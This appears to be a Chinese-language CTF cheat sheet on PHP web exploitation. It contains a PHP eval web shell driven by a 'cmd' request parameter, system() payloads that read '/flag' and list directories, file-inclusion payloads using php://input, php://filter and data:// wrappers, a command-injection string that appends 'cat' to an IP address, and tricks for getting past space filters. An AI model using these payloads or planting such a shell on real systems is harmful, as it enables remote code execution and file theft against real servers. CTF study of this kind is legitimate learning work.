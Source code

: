 ```bash
！！！！！！结尾要带分号！！！！！！
<?php
if (isset($_REQUEST['cmd'])) {
    eval($_REQUEST["cmd"]);
} else {
    highlight_file(__FILE__);
}
?>


system("ls /");
system("cat /flag");
phpinfo();
```

### 文件包含

```bash
#函数查找字符串在另一字符串中第一次出现的位置（区分大小写） 
#strpos("You love php, I love php too!","php");
...url/?file=shell.txt
构造post：ctfhub=system("cat /flag");
```

file_get_contents 在向目标请求时先会判断使用的协议。如果协议无法识别，就会认为它是个目录

- php://input#从输入中读取

eg: `<?php system("ls");?>`

- php://filter

`php://filter/read=filter_name/resource=resource_url`
filter_name：要应用的过滤器名称
resource_url：要读取的资源的URL
eg:`file=php://filter/read=convert.base64-encode/resource=/flag`

- data://text/plain;base64,
file_get_contents()的$filename参数不仅仅为本地文件路径，还可以是一个网络路径URL
eg:`text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=`

```bash
file | base64也可以写成base64 file
127.0.0.1& cat 1382668722644.php | base64
代替cat
cat 由第一行开始显示内容，并将所有内容输出
tac 从最后一行倒序显示内容，并将所有内容输出
more 根据窗口大小，一页一页的现实文件内容
less 和more类似，但其优点可以往前翻页，而且进行可以搜索字符
head 只显示头几行
tail 只显示最后几行
nl 类似于cat -n，显示时输出行号
tailf 类似于tail -f
在 bash 下, 可以用以下字符代替空格:<,<>,%20(space),%09(tab),$IFS$9, ${IFS},$IFS
```
